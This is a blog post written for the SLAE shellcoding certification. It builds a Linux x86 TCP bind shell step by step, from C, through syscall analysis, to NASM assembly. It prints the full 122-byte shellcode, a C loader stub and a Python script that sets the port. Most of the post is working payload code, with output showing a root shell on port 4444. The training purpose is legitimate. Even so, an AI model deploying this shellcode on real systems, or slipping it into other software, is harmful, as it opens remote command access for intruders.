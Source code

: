 * Assignment 1

This blog post has been created for completing the requirements fo the SecurityTube
Linux Assembly Expert certification:
[[http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert][http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert]]

Student ID: SLAE-824

** Requirements

- Create a Shell Bind TCP shellcode
  - Bind to a port
  - Execs Shell on incoming connection
- Port number should be easily configurable

** Strategy

My approach to building a tcp bind shell shellcode will be to:

- Create a C program which illustrates the basic functionality
- Analyze the C program system calls to see how the program interacts with the kernel to accomplish its tasks
- Lookup the system calls and see what arguments and structures they take
- Attempt to write some assembly that calls the same system calls in the same order with the same arguments as the C program does
- Debug issues as of course there will be :)

** The Source Code

The source code and tools referenced in this article can be found here:
[[https://github.com/blischalk/slae/tree/master/exercise1][The Source Code and Tools]]

** The C program

From my experience playing around with socket programming in C and
Python, there is a basic formula and group of function calls for
creating clients and servers. Most of them will be useful to us. A
couple won't be applicable to our situation.  The functions we will
find useful are:

- Socket: Open a socket over which we will communicate. Essentially a file descriptor
- Bind: Bind our socket to an interface on our system
- Listen: Tell our system that we are ready to start accepting connections
- Accept: Accept the connection. This is a necessary next step as listen will generally queue up connections in anticipation of them being accepted

Functions we won't worry about:

- Send
- Recv
- Connect
- Close

We won't worry about send or recv because they are used for managing
the flow of data coming in and out and acting accordingly.  We are
instead going to just redirect stdin, stdout, and stderr over the
socket using a function called dup2 and not worry about managing the
flow of data. Since we aren't connecting to another system/server we
don't need to worry about connect. And as for close, it is generally
good practice to close files after your done with them but one leaked
file descriptor won't hurt anyone right? We need to trim the fat!

The final step after we get our redirection going is we just need to
run a program, in our case ~/bin/sh~ and its output and input should
be connected to our socket. We can run this program using ~execve~.

So lets get some code going!

#+NAME: bindshell.c
#+BEGIN_SRC c
  #include <stdio.h>
  #include <netinet/in.h>
  #define PORT 4444

  int main(int argc, char **argv) {
    // Create a socket
    int lsock = socket(AF_INET, SOCK_STREAM, 0);

    // Setup servr side config struct
    // We configure:
    // The family:IPv4
    // The interface: 0.0.0.0 (any)
    // The port: port#
    struct sockaddr_in config;
    config.sin_family = AF_INET;
    config.sin_addr.s_addr = INADDR_ANY;
    // The htons() function converts the
    // unsigned short integer hostshort from host byte
    // order to network byte order.
    config.sin_port = htons(PORT);

    // Bind the created socket with the interface
    // specified in the configuration
    bind(lsock, (struct sockaddr *)&config, sizeof(config));

    // Listen on the socket
    listen(lsock, 0);

    // Accept the incoming connection
    int csock = accept(lsock, NULL, NULL);

    // Redirect stdin, stdout, and stderror
    dup2(csock, 0);
    dup2(csock, 1);
    dup2(csock, 2);

    // Execute a shell
    execve("/bin/sh", NULL, NULL);
};
#+END_SRC

Compiling this code with ~gcc bindshell.c -o bindshell~ gives us a
nice executable. Running the executable with ~./bindshell~ and then
looking at our network using ~netstat -antp~ yields something very
interesting...

#+Name: netstat-output
#+BEGIN_SRC sh
root@blahblah:~# netstat -atp Active Internet connections (servers and
established) Proto Local Address Foreign Address State PID/Program
name tcp *:4444 *:* LISTEN 1657/bindshell
#+END_SRC

Excellent! We have /bin/sh listen bound to a port. If we open up
another terminal and use netcat to connect to port 4444 by running ~nc
-nv -nv 127.0.0.1 4444~ we will get:

#+Name: netcat-output
#+BEGIN_SRC sh
root@blahblah:~# nc -nv 127.0.0.1 4444 (UNKNOWN) [127.0.0.1] 4444 (?)
open id uid=0(root) gid=0(root) groups=0(root)
#+END_SRC

Perfect! We have a tcp bind shell connection. Now we have to convert
this to assembly...

** Analysis of the C program

We can use a tool called ~strace~ to help us learn more about what system calls
our bind shell c program is making. Running ~strace ./bindshell~, connecting
to the bindshell with ~nc -nv 127.0.0.1 4444~ and filtering out the noise
we will see:

#+Name: strace-bindshell
#+BEGIN_SRC sh
root@blahblah:~/shared/SLAE/slae/exercise1# strace ./bindshell
execve("./bindshell", ["./bindshell"], [/* 41 vars */]) = 0
socket(PF_INET, SOCK_STREAM, IPPROTO_IP) = 3
bind(3, {sa_family=AF_INET, sin_port=htons(4444), sin_addr=inet_addr("0.0.0.0")}, 16) = 0
listen(3, 0)                            = 0
accept(3,
dup2(4, 0)                              = 0
dup2(4, 1)                              = 1
dup2(4, 2)                              = 2
execve("/bin/sh", [0], [/* 0 vars */])  = 0
#+END_SRC

Ok. It looks like our code makes some system calls that seem to align with the
functions we know to be part of our socket programming formula along with the
stdin, stdout, and stderror redirection and our ~execve~ call to run /bin/sh.

Lets lookup the system calls to find out their system call numbers. We will
consult ~/usr/include/i386-linux-gnu/asm/unistd_32.h~ for these numbers...

When we consult the listing of syscalls we encounter a bit of confusion. The
only system calls that seem to closely match up with what we saw in our strace
are:

#+Name: syscall-numbers
#+BEGIN_SRC c
#define __NR_execve 11
#define __NR_dup2 63
#define __NR_socketcall 102
#define __NR_mbind 274
#+END_SRC

This is strange. ~execve~ and ~dup2~ look good but there doesn't seem to be
any syscall numbers for socket,listen, or accept. socketcall seems a bit odd
as does mbind so we will have to look into this.

Consulting ~man socketcall~ we learn:

#+Name: man-socketcall
#+BEGIN_SRC c
int socketcall(int call, unsigned long *args);

/**
socketcall() is a common kernel entry point for the socket system
calls.  call determines which socket function to invoke.  args points
to a block containing the actual arguments, which are passed through
to the appropriate call.

User programs should call the appropriate functions by their usual
names.  Only standard library implementors and kernel hackers need to
know about socketcall().
**/

#+END_SRC

So that seems to explain things a little bit. The first argument to
socketcall is a number that represents the actual socket api function
that we want to be calling. Ok... Where do we get the number associated
with each of the api calls?

A little Google search for socketcall call numbers brings us:

[[http://jkukunas.blogspot.com/2010/05/x86-linux-networking-system-calls.html][socketcall call numbers]]

In this blog post we confirm our knowledge about the first argument of
socketcall as well as learn about ~/usr/include/linux/net.h~

Lets checkout that file and see if we can learn the numbers we are looking
for.

#+Name: net.h
#+BEGIN_SRC c
#define SYS_SOCKET	1		/* sys_socket(2)		*/
#define SYS_BIND	  2		/* sys_bind(2)			*/
#define SYS_CONNECT 3   /* sys_connect(2)   */
#define SYS_LISTEN	4		/* sys_listen(2)		*/
#define SYS_ACCEPT	5		/* sys_accept(2)		*/
// ... snip
#+END_SRC

So it looks like the ~mbind~ syscall we saw earlier might not be
necessary as it looks like there is a ~bind~ syscall number that we
can call with ~socketcall~.  We'll try that out and see how that goes.

Now that we know the syscalls and their corresponding numbers, we need
to figure out their function signatures so that we know what sort of
arguments we need to be passing to them when we invoke them. The
metnod signatures look like the following:


#+Name: signatures
#+BEGIN_SRC c
int socketcall(int call, unsigned long *args);
int socket(int domain, int type, int protocol);
int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
int listen(int sockfd, int backlog);
int accept(int sockfd, struct sockaddr *addr, socklen_t *addrlen)
int dup2(int oldfd, int newfd);
int execve(const char *filename, char *const argv[], char *const envp[]);
// ... snip
#+END_SRC

We also leveraged 2 structs in our C program which we will most likely need
to replicate.

#+Name: netinet/in.h
#+BEGIN_SRC c
#include <netinet/in.h>

// All pointers to socket address structures are often cast to pointers
// to this type before use in various functions and system calls:

struct sockaddr {
    unsigned short    sa_family;    // address family, AF_xxx
    char              sa_data[14];  // 14 bytes of protocol address
};


// IPv4 AF_INET sockets:

struct sockaddr_in {
    short            sin_family;   // e.g. AF_INET, AF_INET6
    unsigned short   sin_port;     // e.g. htons(3490)
    struct in_addr   sin_addr;     // see struct in_addr, below
    char             sin_zero[8];  // zero this if you want to
};

#+END_SRC


Ok... Using what we have gathered from our analysis lets take an attempt at
writing some assembly!

** Assembly: Take 1

Lets lookup some values of constants:

#+BEGIN_SRC sh
~/usr/src/linux-headers-4.0.0-kali1-common/include/linux/socket.h~
#+END_SRC

#+Name: /usr/src/linux-headers-4.0.0-kali1-common/include/linux/socket.h
#+BEGIN_SRC c
#define AF_INET		2	/* Internet IP Protocol 	*/
#+END_SRC

I had a hard time finding where ~SOCK_STREAM~ was defined so we use
a little gcc magic to see what the macro expands to:

#+Name: gcc-macro-expansion
#+BEGIN_SRC sh

root@blahblah:~/shared/SLAE/slae/exercise1# gcc -DN -E bindshell.c | grep SOCK_STREAM
SOCK_STREAM = 1,
int lsock = socket(2, SOCK_STREAM, 0);

#+END_SRC

#+Name: /usr/include/netinet/in.h
#+BEGIN_SRC c
#define INADDR_ANY ((unsigned long int) 0x00000000)
#+END_SRC

#+Name: bindshellasm.nasm
#+BEGIN_SRC nasm
global _start
;; Note: We will store 2 file descriptors along the way
;; We will put the listening socket file descriptor in edi
;; We will put the connection socket file descriptor in ebx

section .text
  _start:
    ;; Create a socket
    ;; int socketcall(int call, unsigned long *args);
    ;; int socket(int domain, int type, int protocol);
    ;; #define SYS_SOCKET	1		/* sys_socket(2)		*/
    ;; Use socketcall to call down to socket
    xor eax, eax
    mov al, 0x66 ; socketcall syscall
    xor ebx, ebx
    mov bl, 0x1 ; sys_socket syscall number

    ;; Put the socket() args on the stack
    xor ecx, ecx
    push ecx ; Specify protocol as 0
    push ebx ; SOCK_STREAM is the type of socket 1
    push 0x2 ; Domain af_inet sets protocol family to ip protocol 2

    mov ecx, esp ; Save pointer to args for the socket() call
    int 0x80 ; call sys_socket

    ; Save the returned listening socket file descriptor
    xor edi, edi
    mov edi, eax

    ;; Bind the socket
    ;; Use socketcall to call down to socket
    xor eax, eax
    mov al, 0x66 ; socketcall syscall
    xor ebx, ebx
    mov bl, 0x2 ; sys_bind syscall number

    ;; Start building the sockaddr_in structure
    ;; int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
    ; sin_addr=0 (INADDR_ANY)
    ; INADDR_ANY Accept on any interface 0x00000000
    xor ecx, ecx
    push ecx

    ;; 4444 is 0x115c in little endian. Network byte order is
    ;; Big endian so we swap the byte ordering
    push word 0x5c11 ; sin_port=4444 (network byte order)
    push word bx     ; sin_family=AF_INET (0x2)
    mov ecx, esp     ; move pointer to sockaddr_in structure

    ;; In the initial code we use sizeof to derive the addrlen
    ;; If we print the results of that we get 0x10 which is 16 bytes
    push 0x10 ;addrlen=16
    push ecx  ;struct sockaddr pointer
    push edi  ;sockfd
    mov ecx, esp ;save pointer to bind() args
    int 0x80 ; call sys_bind

    ;; Call listen and prepare for accepting connections
    xor eax, eax
    mov al, 0x66 ; socketcall syscall
    xor ebx, ebx
    mov bl, 0x4 ; sys_listen syscall number

    ;; Place listen's arguments on the stack
    xor ecx, ecx
    push ecx ; backlog we set to zero
    push edi ; push the socket file descriptor
    mov ecx, esp ; place a pointer to the args in ecx
    int 0x80 ; call sys_listen

    ;; Call accept
    xor eax, eax
    mov al, 0x66 ; socketcall syscall
    xor ebx, ebx
    mov bl, 0x5 ; sys_accept syscall number
    ;; Place accept's arguments on the stack
    ;; We don't need a peer socket???... so we
    ;; use nulls for addrlen and sockaddr struct
    xor ecx, ecx
    push ecx ; Push NULL (0x00000000) for addrlen
    push ecx ; Push NULL (0x00000000) for sockaddr struct
    push edi ; Push the listening sockets file descriptor
    mov ecx, esp ; place a pointer to the args in ecx
    int 0x80 ; call sys_accept

    ;; Save the returned connection socket file descriptor
    xor ebx, ebx
    mov ebx, eax

    ;; Call dup2 for stdin, stdout, and stderr in a loop
    xor ecx, ecx
    mov cl, 0x2 ;loop counter
  dup2:
    mov al, 0x3f ;dup2
    int 0x80
    dec ecx
    jns dup2

    ;; Call execve
    xor eax, eax
    mov al, 0xb ;execve
    xor ebx, ebx
    push ebx
    push 0x68732f2f ;"sh//"
    push 0x6e69622f ;"nib/"
    mov ebx, esp
    xor ecx, ecx
    xor edx, edx
    int 0x80
#+END_SRC

When we compile the above shellcode using the compile.sh script below:

#+Name: compile assembly script
#+BEGIN_SRC sh
#!/bin/bash
echo '[+] Assembling with Nasm ... '
nasm -f elf32 -o $1.o $1.nasm

echo '[+] Linking ...'
ld -o $1 $1.o

echo '[+] Done!'
#+END_SRC

~root@blahblah:~/shared/SLAE/slae/exercise1# ./compile.sh bindshellasm~

And run the shellcode using:

~root@blahblah:~/shared/SLAE/slae/exercise1# ./bindshellasm~

And connect using netcat:

#+Name: netcat bind connection
#+BEGIN_SRC sh

#!/bin/bash
root@blahblah:~/shared/SLAE/slae/exercise1# nc -nv 127.0.0.1 4444
(UNKNOWN) [127.0.0.1] 4444 (?) open
id
uid=0(root) gid=0(root) groups=0(root)

#+END_SRC

Bingo! Our assembly works and gives us a tcp bind shell. Now we need to test it
in our c program stub. We will use some command line fu to get the opcodes
from our binary:

#+Name: compile assembly script
#+BEGIN_SRC sh
root@funos:~/shared/SLAE/slae/exercise1# objdump -d ./bindshellasm|grep '[0-9a-f]:'| \
grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '\
|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

"\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xc9\x51\x53\x6a\x02\x89\xe1\xcd\x80\x31"
"\xff\x89\xc7\x31\xc0\xb0\x66\x31\xdb\xb3\x02\x31\xc9\x51\x66\x68\x11\x5c\x66"
"\x53\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x04"
"\x31\xc9\x51\x57\x89\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x05\x31\xc9\x51"
"\x51\x57\x89\xe1\xcd\x80\x31\xdb\x89\xc3\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49"
"\x79\xf9\x31\xc0\xb0\x0b\x31\xdb\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"
"\x89\xe3\x31\xc9\x31\xd2\xcd\x80"

#+END_SRC

We add our opcodes to a stub tester C program:

#+Name: shellcode.c
#+BEGIN_SRC C

#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xc9\x51\x53\x6a\x02\x89\xe1\xcd\x80\x31"
"\xff\x89\xc7\x31\xc0\xb0\x66\x31\xdb\xb3\x02\x31\xc9\x51\x66\x68\x11\x5c\x66"
"\x53\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x04"
"\x31\xc9\x51\x57\x89\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x05\x31\xc9\x51"
"\x51\x57\x89\xe1\xcd\x80\x31\xdb\x89\xc3\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49"
"\x79\xf9\x31\xc0\xb0\x0b\x31\xdb\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"
"\x89\xe3\x31\xc9\x31\xd2\xcd\x80";


main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}

#+END_SRC

Compile with: ~gcc shellcode.c -o shellcode~
Run with: ~./shellcode~
Connect with: ~nc -nv 127.0.0.1 4444~


And it works! We get our shell. The shellcode is 122 bytes without
really trying to optimize. We can always go back and try to
optimize. We also need to update the program to make the port number
easily configurable.

Let's write a wrapper script to set our port. We just accept the port
as a command line argument to our script and interpolate it into our
shellcode and print out the result:

#+Name: tcp-bind-shell.py
#+BEGIN_SRC python
#!/usr/bin/python

import sys

if len(sys.argv) != 2:
	print "Fail!"

port_number     = int(sys.argv[1])
bts             = [port_number >> i & 0xff for i in (24,16,8,0)]
filtered        = [b for b in bts if b > 0]
formatted       = ["\\x" + format(b, 'x') for b in filtered]
joined          = "".join(formatted)

shellcode ="\\x31\\xc0\\xb0\\x66\\x31\\xdb\\xb3\\x01\\x31\\xc9\\x51\\x53\\x6a\\x02\\x89\\xe1"
shellcode+="\\xcd\\x80\\x31\\xff\\x89\\xc7\\x31\\xc0\\xb0\\x66\\x31\\xdb\\xb3\\x02\\x31\\xc9"
shellcode+="\\x51\\x66\\x68" + joined + "\\x66\\x53\\x89\\xe1\\x6a\\x10\\x51\\x57"
shellcode+="\\x89\\xe1\\xcd\\x80\\x31\\xc0\\xb0\\x66\\x31\\xdb\\xb3\\x04\\x31\\xc9\\x51\\x57"
shellcode+="\\x89\\xe1\\xcd\\x80\\x31\\xc0\\xb0\\x66\\x31\\xdb\\xb3\\x05\\x31\\xc9\\x51\\x51"
shellcode+="\\x57\\x89\\xe1\\xcd\\x80\\x31\\xdb\\x89\\xc3\\x31\\xc9\\xb1\\x02\\xb0\\x3f\\xcd"
shellcode+="\\x80\\x49\\x79\\xf9\\x31\\xc0\\xb0\\x0b\\x31\\xdb\\x53\\x68\\x2f\\x2f\\x73\\x68"
shellcode+="\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x31\\xc9\\x31\\xd2\\xcd\\x80"

print(shellcode)


#+END_SRC

Once we have our script we print out our updated shellcode and pop it back
into our shellcode.c stub program, compile and test a connection. When we do,
we get our shell again. And even better, we can change the port to whatever we
would like to yield the proper shellcode.
